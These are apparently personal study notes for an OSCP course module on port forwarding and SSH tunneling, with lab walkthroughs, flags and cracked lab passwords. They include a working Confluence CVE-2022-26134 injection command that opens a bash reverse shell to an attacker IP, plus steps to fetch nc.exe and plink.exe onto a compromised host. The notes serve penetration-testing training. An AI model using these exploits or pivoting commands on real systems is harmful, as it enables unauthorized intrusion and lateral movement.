






# Module 19: Port Redirection and SSH Tunneling

## Tags
#PortForwarding #SSHTunneling #Pivoting #NetworkPivoting #Socat #Proxychains #sshuttle #Netsh #Plink #Meterpreter #Chisel #Rpivot #Dnscat2 #ptunnel #SocksOverRDP #Module19 #OSCP #LocalPortForward #RemotePortForward #DynamicPortForward #SOCKS5 #SocksProxy #DoubleHop #MultiHop #BeholeSocks

Related: [[18. Linux Privilege Escalation|Linux Privilege Escalation]] | [[16. Password Attacks|Password Attacks]] | [[17. Windows Privilege Escalation|Windows Privilege Escalation]]

Companion resources: [[Port Redirection and SSH Tunneling]] | [[Port Redirection and SSH Tunneling (Decision Tree)]] | [[Pivoting & Tunneling (Breakdowns)]]

---

## **Why This Module Matters**

Most OSCP exam and real-world networks are segmented. Getting a shell on one box is just the start -- getting from that foothold to internal services that aren't directly reachable is the actual challenge. This module is the toolbox for that second hop.

SSH tunneling (-L local forward, -R remote forward, -D dynamic SOCKS) covers most CTF and exam pivoting scenarios. Socat handles the cases where SSH isn't available. The heavier tools -- Chisel, Rpivot, Dnscat2, ptunnel-ng -- matter when firewalls block raw TCP and you need to tunnel over HTTP or DNS to get out. SocksOverRDP and Meterpreter autoroute cover Windows-only pivot hosts where SSH is unavailable.

Multi-hop chaining (compromised host A routes to B which routes to C) is tested in the OSCP exam and requires a solid mental model of which direction traffic flows and which end holds the listener. Getting this wrong means no shell.

---

## 19.1 Why Port Redirection and Tunneling?

Most real-world networks are **segmented**, not flat. Segmented networks break devices into subnets with controlled traffic between them. Firewalls (software on endpoints, features in network hardware, or standalone appliances) enforce the rules. Deep Packet Inspection (DPI) goes further and inspects packet contents, not just IP/port.

Flat networks give an attacker free lateral movement once any host is compromised. Segmented networks limit the blast radius: compromising one host doesn't automatically hand you every other device.

**As an attacker**: boundaries are exactly what we need to traverse. Two core strategies:

| Strategy | What it does |
|---|---|
| **Port redirection** (port forwarding) | Redirects packets from one socket to another. Traffic looks like it's coming from the forwarder, not the original source. |
| **Tunneling** | Encapsulates one protocol inside another. The module covers SSH tunneling specifically: traffic looks like SSH from the outside, but could be carrying anything (psql, SMB, RDP, etc.) |

The rest of this module walks through increasingly complex network configurations and shows exactly which technique fits each one.

> 📸 Screenshot: diagram showing flat network vs segmented network (WAN / DMZ / internal)

#### Tags: #NetworkSegmentation #Firewall #DPI #PortForwarding #Tunneling #Module19

---

## 19.2 Port Forwarding with Linux Tools

### 19.2.1 The Scenario

Throughout the module, we build up this network step by step:



**DMZ** = Demilitarized Zone: a buffer subnet between the external WAN and the internal network. Hosts in it may be reachable from outside but shouldn't have unfettered access to internal hosts.

Starting point: Kali can reach CONFLUENCE01 (port 8090) directly. PGDATABASE01 and everything beyond is only reachable from CONFLUENCE01.

### 19.2.2 Getting a Shell on CONFLUENCE01 (CVE-2022-26134)

The module exploits a Confluence pre-auth RCE via OGNL injection. The original PoC from Rapid7 needs two modifications:
1. Change the Confluence target IP to match the actual VM
2. Change the reverse shell callback IP/port to our Kali listener

```bash
# Original PoC (from Rapid7 blog, with URL-encoded OGNL payload):
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/

# URL-decoded payload for readability:
# ${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval(
#   "new java.lang.ProcessBuilder().command('bash','-c',
#    'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1').start()")}

# Kali listener:
nc -nvlp 4444
```

Important: do NOT fully re-encode the payload. The original PoC leaves `.`, `-`, and `/` unencoded intentionally. Encoding those characters breaks the Confluence URL parser.

After catching the shell, verify with `id` then enumerate interfaces with `ip addr` and `ip route`.

**Credentials found in `/var/atlassian/application-data/confluence/confluence.cfg.xml`:**
- Username: `postgres`
- Password: `D@t4basePassw0rd!`
- DB host: `10.4.50.215:5432`

> 📸 Screenshot: confluence.cfg.xml showing the plaintext postgres credentials

### 19.2.3 Port Forwarding with Socat

**Socat** is a general-purpose networking tool that can create a port forward in one command. When it's installed on the pivot host (CONFLUENCE01), it's the simplest solution.

```bash
# On CONFLUENCE01: listen on port 2345, forward all packets to PGDATABASE01:5432
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

# flags:
# -ddd       = verbose (3 levels of debug output)
# TCP-LISTEN:2345  = listen on all interfaces, port 2345
# fork       = create a new subprocess per connection (don't die after one)
# TCP:10.4.50.215:5432  = forward to this destination

# From Kali: connect to postgres through the port forward
psql -h 192.168.50.63 -p 2345 -U postgres
# then: \l (list databases), \c confluence (connect to db)
# query: select user_name,credential from cwd_user;  -- actual column names (verify with \d cwd_user -- module text shows user_password but real VMs use 'credential')
```

> 📸 Screenshot: Socat running on CONFLUENCE01, psql connecting from Kali, listing databases

**Hash cracking with Hashcat (mode 12001 = Atlassian/PBKDF2-HMAC-SHA1):**
```bash
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
```

Passwords cracked from the cwd_user table:
- `database_admin` → `sqlpass123`
- `hr_admin` → `Welcome1234`
- `rdp_admin` → `P@ssw0rd!`

**Port forward to SSH on PGDATABASE01:**
```bash
# Kill the first socat (Ctrl+C), then:
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

# SSH through it from Kali:
ssh database_admin@192.168.50.63 -p2222
```

**Alternative Linux port forwarding tools (when Socat is not available):**
- **rinetd**: daemon-based, good for longer-term configs, slightly unwieldy for temporary use
- **nc + FIFO named pipe**: `mkfifo /tmp/f; nc -l -p 2345 < /tmp/f | nc 10.4.50.215 5432 > /tmp/f`
- **iptables** (requires root): `iptables -t nat -A PREROUTING ...` plus enable IP forwarding at `/proc/sys/net/ipv4/conf/<iface>/forwarding`

> 🔍 Worth remembering generally: non-privileged ports start at 1025. Always pick a port above 1024 when running as a low-priv user on the pivot host. Port 2345, 4455, 9999 etc. are common choices in the examples.

> 🔁 Similar to: using mkfifo reverse shells in [[18. Linux Privilege Escalation#18.3.1 Abusing Cron Jobs|18.3.1]]. Same named pipe concept, different direction.

> ⚠️ Detection risk: unusual listening ports (2345, 2222) and unexpected outbound connections from a web app service user are easy to spot with network monitoring. In real engagements, use ephemeral or covert channels where possible.

**Quiz answer (19.2.3):**
- Password of database_admin: **`sqlpass123`** (cracked from Confluence DB hash with hashcat -m 12001 + fasttrack.txt)

> 🚩 Hands-on: 19.2.3 Lab Q1. ✅ Done. Answer: `sqlpass123`. Columns in this VM's cwd_user table are `user_name` and `credential` (not `username`/`user_password` as the module text shows -- use `\d cwd_user` if stuck). Hashes cracked with `hashcat -m 12001`.

> 🚩 Hands-on: 19.2.3 Lab Q2 (Capstone). ✅ Done. Flag: `OS{6ca411cfc2c19a6bedc7b5d5548e7cbe}`. Socat port forward for SSH (`TCP-LISTEN:2222,fork TCP:10.4.236.215:22`), then `ssh database_admin@192.168.236.63 -p2222`.

> 🎬 **[ippsec.rocks: "socat"](https://ippsec.rocks/?#socat)** -- boxes using Socat for pivoting and port forwarding
> 🎬 **[ippsec.rocks: "confluence"](https://ippsec.rocks/?#confluence)** -- boxes exploiting Confluence CVEs for initial foothold

#### Tags: #Socat #PortForwarding #CVE202226134 #OGNL #Confluence #Hashcat #Module19

---

## 19.3 SSH Tunneling

SSH is inherently a tunneling protocol. All the shell commands and data in an SSH session already travel through an encrypted tunnel. SSH also exposes that tunnel for arbitrary port forwarding, which we exploit here.

**Why SSH tunneling beats Socat in many real environments:**
- SSH traffic blends in as normal admin activity
- SSH clients are installed by default on most Linux and modern Windows machines
- SSH traffic is encrypted, harder to inspect
- OpenSSH provides four distinct forwarding modes

### 19.3.1 SSH Local Port Forwarding

**What it is:** the SSH *client* opens a listening port. Packets received there travel through the SSH tunnel to the SSH *server*, which forwards them to the destination.

```
[SSH Client host] --listen:PORT --> [SSH tunnel] --> [SSH Server host] --forward--> [destination]
```

**Key difference from Socat:** with Socat, the same machine both listens and forwards. With SSH local port forward, the listening is on the SSH *client* and forwarding is done by the SSH *server*.

**Syntax:**
```bash
ssh -N -L [LOCAL_IP:]LOCAL_PORT:DEST_IP:DEST_PORT user@SSH_SERVER

# -N = don't open a remote shell, just set up the port forward
# -L = local port forward
# [LOCAL_IP:]LOCAL_PORT = where to listen on the SSH client
# DEST_IP:DEST_PORT = where to forward on the SSH server side

# Example: listen on all interfaces port 4455 on CONFLUENCE01,
# forward to SMB on HRSHARES via PGDATABASE01 as the SSH server:
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```



**Enumerate the subnet first (bash loop with nc):**
```bash
# From PGDATABASE01, sweep for port 445 in 172.16.50.0/24
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
# Look for "succeeded!" vs "timed out" vs "Connection refused"
```

**From Kali, use smbclient through the local port forward:**
```bash
# List shares (connect to CONFLUENCE01:4455, which forwards to HRSHARES:445)
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234

# Access a specific share
smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
smb: \> get Provisioning.ps1
```

**Confirm the port is listening on the pivot host:**
```bash
ss -ntplu   # on CONFLUENCE01 -- look for 0.0.0.0:4455 owned by ssh
```

> 📸 Screenshot: ssh -L command running on CONFLUENCE01, smbclient from Kali listing HRSHARES shares

> 🔍 Worth remembering generally: `-L 0.0.0.0:PORT` listens on ALL interfaces of the SSH client. If you only want the port accessible from the client itself (not from outside), use `127.0.0.1:PORT` instead. In scenarios where the outer firewall is restrictive, you may need the interface IP explicitly.

> 🔁 Similar to: Socat port forwarding in 19.2.3, except the listening and forwarding are split across two machines connected by the SSH tunnel.

> 🚩 Hands-on: 19.3.1 Lab Q1 (VM Group 1). ✅ Done. Flag: `OS{2ad5ef9c95076adb188301031ce7fcf1}` (in `$Flag=` variable in Provisioning.ps1). Gotchas: (1) sshpass and socat not installed on this VM -- upgrade shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'` to get an interactive PTY to answer the SSH password prompt; (2) add `-o StrictHostKeyChecking=no` since confluence user can't write to ~/.ssh/known_hosts; (3) SMB1 reconnect error at the end of `smbclient -L` is harmless, shares still listed fine.

> 🚩 Hands-on: 19.3.1 Lab Q2 (VM Group 2). ✅ Done. Flag: `OS{91b5b64cd32cf97b4852acc352664bb7}`. Forward: `ssh -N -L 0.0.0.0:4242:172.16.236.217:4242 database_admin@10.4.236.215 -o StrictHostKeyChecking=no` (PTY upgrade first). Client syntax: `ssh_local_client -i 192.168.236.63 -p 4242` (uses `-i`/`-p` flags, not positional args).

> 🔍 Worth remembering generally: when SSHing from a non-interactive reverse shell (no PTY), you can't answer the SSH password prompt -- the process hangs or fails. Fix: upgrade to a PTY first with `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Also add `-o StrictHostKeyChecking=no` when the running user can't write to `~/.ssh/known_hosts`.

> 🎬 **[ippsec.rocks: "ssh local port forward"](https://ippsec.rocks/?#ssh%20local%20port%20forward)** -- boxes using SSH -L to reach internal services

#### Tags: #SSHLocalPortForward #SSH-L #smbclient #nc #Module19

---

### 19.3.2 SSH Dynamic Port Forwarding

**The limitation of local port forwarding:** one socket per SSH connection. If you need to reach multiple hosts or ports through the same pivot, you need a new connection for each.

**Dynamic port forwarding** solves this: the SSH client opens a single **SOCKS proxy port**. Any traffic sent to that port (in SOCKS format) gets pushed through the SSH tunnel and forwarded to wherever it's addressed. One port, unlimited destinations.

```
[Kali :9999 SOCKS] <-- SOCKS-wrapped packets --> [SSH tunnel] --> [CONFLUENCE01 as SSH client] --> [PGDATABASE01 as SSH server] --> [any host PGDATABASE01 can reach]
```

**Syntax:**
```bash
ssh -N -D [LOCAL_IP:]PORT user@SSH_SERVER

# -D = dynamic port forward (creates a SOCKS proxy port on the SSH client)
# Example: SOCKS proxy on all interfaces port 9999 on CONFLUENCE01
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

**Proxychains** routes tools through the SOCKS proxy:
```bash
# Edit /etc/proxychains4.conf -- replace the [ProxyList] section:
socks5 192.168.50.63 9999   # point at CONFLUENCE01's SOCKS port

# Prepend 'proxychains' to any command to push it through the SOCKS proxy
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 172.16.50.217

# Speed tip: lower tcp_read_time_out and tcp_connect_time_out in proxychains4.conf
# Default values are very high and make scanning painfully slow
```

> ⚠️ Nmap through Proxychains: must use `-sT` (TCP connect scan), NOT `-sS` (SYN scan). SYN scans require raw socket access that Proxychains can't intercept. Also skip host discovery (`-Pn`) since ICMP pings won't work through the proxy either.

> ⚠️ Proxychains uses LD_PRELOAD to hook networking calls. It works on dynamically-linked binaries but NOT on statically-linked binaries.

> 📸 Screenshot: proxychains nmap output showing open ports on HRSHARES through the SOCKS proxy

> 🔍 Worth remembering generally: `socks4` vs `socks5` in proxychains4.conf -- SSH supports both. SOCKS5 also handles UDP and IPv6. Some SOCKS proxies only speak SOCKS4.

> 🚩 Hands-on: 19.3.2 Lab Q1. ✅ Done. Answer: port **4872**. Command: `proxychains nmap -vvv -sT -p4870-4900 -Pn -n 172.16.236.217` (takes a few minutes through SOCKS).

> 🚩 Hands-on: 19.3.2 Lab Q2. ✅ Done. Flag: `OS{7bcede8f0e1df0a8b346322ec4ed51eb}`. Command: `proxychains /tmp/ssh_dynamic_client -i 172.16.236.217 -p 4872`. Proxychains output shows the full chain: Kali → CONFLUENCE01:9999 (SOCKS) → HRSHARES:4872.

> 🔍 Worth remembering generally: after changing the proxychains SOCKS entry for one lab, reset it (`sudo sed -i 's/socks5 .*/socks4 127.0.0.1 9050/' /etc/proxychains4.conf`) before the next one. If the sed pattern doesn't match (because the entry is already `socks5` not `socks4`), the substitution silently fails -- always `tail -3` to confirm.

> 🎬 **[ippsec.rocks: "proxychains"](https://ippsec.rocks/?#proxychains)** -- boxes using proxychains + SOCKS for multi-hop pivoting

#### Tags: #SSHDynamicPortForward #SSH-D #SOCKS #Proxychains #nmap #Module19

---

### 19.3.3 SSH Remote Port Forwarding

**The problem with local and dynamic forwarding:** they both require binding a port on the pivot host (CONFLUENCE01) that our Kali machine can reach. If a firewall blocks inbound connections to any port on CONFLUENCE01 (except the originally exploited port), local/dynamic forwarding fails.

**Remote port forwarding flips the direction.** Instead of the pivot host listening for us to connect, the pivot host SSH's *out* to our Kali machine, and the listening port is opened on Kali. This is like a reverse shell but for port forwarding.

```
[Kali :2345 listening] <-- SSH connection back from CONFLUENCE01 --> [CONFLUENCE01 SSH client] --> forward to [PGDATABASE01:5432]
```

**Syntax:**
```bash
# First: start SSH server on Kali
sudo systemctl start ssh

# On CONFLUENCE01: SSH OUT to Kali, bind listening port on Kali
ssh -N -R [BIND_ADDR:]BIND_PORT:DEST_IP:DEST_PORT kali@<KALI_IP>

# -R = remote port forward
# BIND_ADDR:BIND_PORT = what to listen on at the SSH SERVER (Kali) side
# DEST_IP:DEST_PORT = what to forward TO (done by the SSH CLIENT, CONFLUENCE01)

# Example: listen on Kali's loopback port 2345, forward to PGDATABASE01:5432
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```



**From Kali, use psql through the remote port forward:**
```bash
psql -h 127.0.0.1 -p 2345 -U postgres
# password: D@t4basePassw0rd!
postgres=# \l
postgres=# \c confluence
confluence=# select * from cwd_user;
```

**Confirm the port is listening on Kali:**
```bash
ss -ntplu   # on Kali -- look for 127.0.0.1:2345
```

> ⚠️ Note: if using password authentication to SSH back to Kali, ensure `PasswordAuthentication yes` is set in `/etc/ssh/sshd_config`. In some Kali configs it's disabled by default.

> 🔍 Worth remembering generally: binding the remote port to `127.0.0.1` on Kali (not `0.0.0.0`) keeps it only accessible locally. That's usually what you want: you're the only one connecting to it, and there's no need to expose it externally.

> 🔁 Similar to: a reverse shell payload connecting back to Kali. Same concept: the compromised host initiates the outbound connection to bypass inbound firewall rules.

> 🚩 Hands-on: 19.3.3 Lab Q1 (VM Group 1). ✅ Done. Flag: `OS{ed232de497d7a15aeac2a4fefc642596}`. Remote forward from CONFLUENCE01: `ssh -N -R 127.0.0.1:2345:10.4.236.215:5432 kali@192.168.45.223 -o StrictHostKeyChecking=no` (PTY upgrade first). Then `psql -h 127.0.0.1 -p 2345 -U postgres` from Kali, `\c hr_backup`, `SELECT * FROM payroll;`.

> 🚩 Hands-on: 19.3.3 Lab Q2 (VM Group 2). ✅ Done. Flag: `OS{76c630258afb82f315b1ba3bd777d9a9}`. Gotcha: nc listener on Kali:4444 blocks the remote forward from binding the same port -- use a different local port (5555). Forward: `ssh -N -R 127.0.0.1:5555:10.4.236.215:4444 kali@192.168.45.223 -o StrictHostKeyChecking=no`. Client: `/tmp/ssh_remote_client -i 127.0.0.1 -p 5555`.

> 🔍 Worth remembering generally: if your nc listener is already using the port you want for a remote port forward (e.g. 4444), SSH will fail with "remote port forwarding failed for listen port 4444". Pick a different local listen port (e.g. 5555) and point the client at that instead.

> 🎬 **[ippsec.rocks: "ssh remote port forward"](https://ippsec.rocks/?#ssh%20remote%20port%20forward)** -- boxes using SSH -R to bypass inbound firewall restrictions

#### Tags: #SSHRemotePortForward #SSH-R #ReverseTunnel #Module19

---

### 19.3.4 SSH Remote Dynamic Port Forwarding

**Combines** the flexibility of dynamic port forwarding (SOCKS proxy, unlimited destinations) with the outbound-initiation of remote port forwarding (bypass inbound firewall rules).

The SOCKS proxy port is bound on the SSH **server** (Kali), but traffic is forwarded by the SSH **client** (CONFLUENCE01).

**Syntax:**
```bash
# On CONFLUENCE01: SSH OUT to Kali, open SOCKS proxy on Kali
ssh -N -R PORT kali@<KALI_IP>

# Only difference from classic remote port forward:
# Pass only ONE socket (the SOCKS port to open on Kali) -- no destination needed
# If no IP given, binds to loopback by default

# Example: open SOCKS proxy on port 9998 on Kali's loopback
ssh -N -R 9998 kali@192.168.118.4
```

> ⚠️ Requires OpenSSH **client** version 7.6 or higher. OpenSSH server version doesn't matter. Check with `ssh -V`.

**Then on Kali, update proxychains and use as normal:**
```bash
# /etc/proxychains4.conf:
socks5 127.0.0.1 9998

# Scan through the SOCKS proxy
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64   # MULTISERVER03
```



> 📸 Screenshot: `ssh -N -R 9998 kali@<ip>` on CONFLUENCE01, `ss -ntplu` on Kali showing 127.0.0.1:9998

> 🚩 Hands-on: 19.3.4 Lab Q1. ✅ Done. Answer: port **9062** on 10.4.236.64 (MULTISERVER03 internal interface). Remote dynamic forward from CONFLUENCE01: `ssh -N -R 9998 kali@192.168.45.223 -o StrictHostKeyChecking=no` (PTY upgrade first). Proxychains: `socks5 127.0.0.1 9998`. Scan: `proxychains nmap -vvv -sT -p9050-9100 -Pn -n 10.4.236.64`.

> 🚩 Hands-on: 19.3.4 Lab Q2 (Capstone). ✅ Done. Flag: `OS{eddb50b6f8e0eb5041a5124933494215}`. Command: `proxychains /tmp/ssh_remote_dynamic_client -i 10.4.236.64 -p 9062`.

#### Tags: #SSHRemoteDynamic #SOCKS #Proxychains #Module19

---

### 19.3.5 Using sshuttle

**sshuttle** acts like a VPN over SSH. Instead of using Proxychains to route specific tool traffic through a SOCKS proxy, sshuttle creates actual kernel routes so that all traffic to specified subnets is transparently tunneled through SSH. No `proxychains` prefix needed.

**Requirements:**
- Root on the SSH **client** (Kali)
- Python3 on the SSH **server** (the pivot, PGDATABASE01 here)
- Direct SSH access (or via a port forward) to the SSH server

```bash
# sshuttle -r <ssh_connection> <subnets_to_tunnel>
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
# 192.168.50.63:2222 = reach PGDATABASE01 via Socat port forward on CONFLUENCE01
# 10.4.50.0/24 and 172.16.50.0/24 = tunnel traffic to these subnets

# After running, connect transparently without proxychains:
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
# Works as if you're on the same network as PGDATABASE01
```

**Limitations:**
- Requires root on Kali (to set up kernel routing rules)
- Python3 must be available on the SSH server (needed to run sshuttle's helper)
- Works well for broad subnet access, less targeted than specific port forwards
- Doesn't work for UDP or ICMP (only TCP)

**Quiz answer (19.3.5):**
- True or false -- sshuttle requires root on the SSH client machine: **True**

> 🔍 Worth remembering generally: sshuttle's primary advantage is that it makes routing transparent -- you don't need to prepend `proxychains` to every command. Use it when you need to hit many hosts/ports in a subnet and want a VPN-like feel. Use proxychains + SSH dynamic when you want precise control or root access is unavailable.

> 🚩 Hands-on, VM spin-up required: 19.3.5 Lab Q1 (pure recall -- no VM needed). True or false: sshuttle requires root privileges on the SSH client. **Answer: True** ✅

#### Tags: #sshuttle #VPN #SSHTunneling #Module19

---

## 19.4 Port Forwarding with Windows Tools

Windows hosts are increasingly common pivot points. Three options, each with different tradeoffs.

### 19.4.1 ssh.exe (OpenSSH for Windows)

OpenSSH has been bundled with Windows since version 1803 (April 2018 Update). Located at `%SystemDrive%\Windows\System32\OpenSSH\`. The version bundled with modern Windows is 8.1p1+, well above the 7.6 minimum needed for remote dynamic port forwarding.

```cmd
REM Check if ssh is available
where ssh
REM C:\Windows\System32\OpenSSH\ssh.exe

REM Check version (should be 7.6+ for remote dynamic port forward)
ssh.exe -V

REM Create remote dynamic port forward back to Kali from Windows
ssh -N -R 9998 kali@<KALI_IP>
```

**Exact same syntax as Linux SSH.** After running, update `/etc/proxychains4.conf` on Kali to point at `127.0.0.1:9998` and use proxychains exactly as before.

Use case: you have RDP access to a Windows machine that can reach internal hosts, but the firewall only exposes RDP outbound. SSH from the Windows box out to Kali, open a SOCKS proxy, enumerate internal hosts via Proxychains on Kali.

> 📸 Screenshot: cmd.exe on MULTISERVER03 running `where ssh` then `ssh -N -R 9998 kali@<ip>`, then psql via proxychains on Kali connecting to PGDATABASE01

> 🚩 Hands-on: 19.4.1 Lab Q1. ✅ Done. Flag: `OS{c448a418224da098419a5e55f4284048}`. RDP: `xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:192.168.236.64`. Windows cmd: `ssh -N -R 9997 kali@192.168.45.223` (use a free port -- 9998 was still occupied from 19.3.4). Proxychains `socks5 127.0.0.1 9997`, then `proxychains ssh_exe_client -i 10.4.236.215 -p 4141`. Gotcha: if sed doesn't update proxychains because it's already `socks5` not `socks4`, match the current line exactly.

#### Tags: #ssh.exe #WindowsSSH #OpenSSH #RemoteDynamicPortForward #Module19

---

### 19.4.2 Plink (PuTTY Link)

Plink is PuTTY's command-line SSH client. Pre-OpenSSH-for-Windows, it was the standard tool. Still encountered in environments where admins removed OpenSSH or use older Windows versions.

**Why use Plink?**
- Widely used by admins, rarely flagged by AV
- Standalone `.exe`, easy to upload and run from a shell
- No installation needed

**Plink limitation:** does NOT support remote dynamic port forwarding (no equivalent to `ssh -R PORT`).

**Getting Plink onto the target:**
```bash
# On Kali: find and serve plink.exe
find / -name plink.exe 2>/dev/null
# /usr/share/windows-resources/binaries/plink.exe
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
sudo systemctl start apache2
```

```cmd
REM On Windows target (from reverse shell or web shell): download plink.exe
powershell wget -Uri http://<KALI_IP>/plink.exe -OutFile C:\Windows\Temp\plink.exe
```

**Creating a remote port forward with Plink:**
```cmd
REM Forward RDP port on MULTISERVER03 loopback to port 9833 on Kali
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR_KALI_PASSWORD> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

**Accepting the host key in a non-TTY shell (can't type at the prompt):**
```cmd
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw <PASSWORD> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
The `echo y |` pipes an automatic "yes" to the "Store key in cache?" prompt. Without this, Plink hangs waiting for a response in a non-interactive shell.

**Connect to the forwarded port from Kali:**
```bash
# Once port 9833 is listening on Kali loopback (confirmed with ss -ntplu):
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```

> ⚠️ Passing the password on the command line with `-pw` is visible in process listings. In real engagements, create a dedicated port-forwarding user with a limited shell on your Kali machine for this purpose.

> 🔍 Worth remembering generally: Plink's `-R` syntax is identical to OpenSSH's `-R`. The main differences: Plink accepts `-l username` and `-pw password` as explicit flags rather than `user@host`, and doesn't support remote dynamic port forwarding.

> 📸 Screenshot: plink.exe command running in a Windows reverse shell, ss showing port 9833 on Kali, xfreerdp connecting to MULTISERVER03 desktop

> 🚩 Hands-on: 19.4.2 Lab Q1. ✅ Done. Flag: `OS{eac23c748237a2e2f3d29bcb6439a982}`. Key insight: MULTISERVER03 is PRE-COMPROMISED -- web shell already planted at `/umbraco/forms.aspx`, no Umbraco login needed. Flow: (1) start Apache, copy nc.exe + plink.exe to `/var/www/html/`; (2) web shell downloads nc.exe, sends reverse shell to Kali:4446; (3) nc shell downloads plink.exe; (4) `cmd.exe /c echo y | plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.223`; (5) `xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:127.0.0.1:9833`; (6) `type C:\Users\rdp_admin\Desktop\flag.txt`.

